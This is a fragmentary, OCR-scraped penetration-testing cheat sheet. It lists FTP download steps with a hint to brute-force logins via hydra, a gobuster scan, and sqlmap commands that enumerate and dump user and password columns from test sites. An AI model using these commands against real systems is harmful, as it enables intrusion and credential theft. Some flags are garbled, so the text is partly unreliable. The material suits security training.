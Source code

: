384: sha384sum file.elf and consider only the last 4 digits of the hash result. FTP To download resources from FTP service we can use following commands: ftp #connect to FTP service # if you've not credentials, first try anonymous login writing as user: anonymous and leave blank psw, or brute force credentials using hydra (see section). Prompt OFF #deactive prompt mode binary #active binary mode mget * #dump all file bye #exit GoBuster gobuster dir -u http://IP:Port -w wordlist.txt SQLMap Finding vulnerable site  site:http://testphp.vulnweb.com/ php?= (for cookies- console->document.cookie) {% hint style="info" %} Have cookie value is better, because reduce time to elaborate results! {% endhint %}    sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs (databases) sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart tables (tables) sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart T users --columns (columns) Dump whole table  OR sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart T users --dump (dump individual column data)        sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart T users -C uname --dump sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart T users -C pass --dump sqlmap -u "http://vmw.moviescope.com/viewprofile.aspx?id=l" —dbs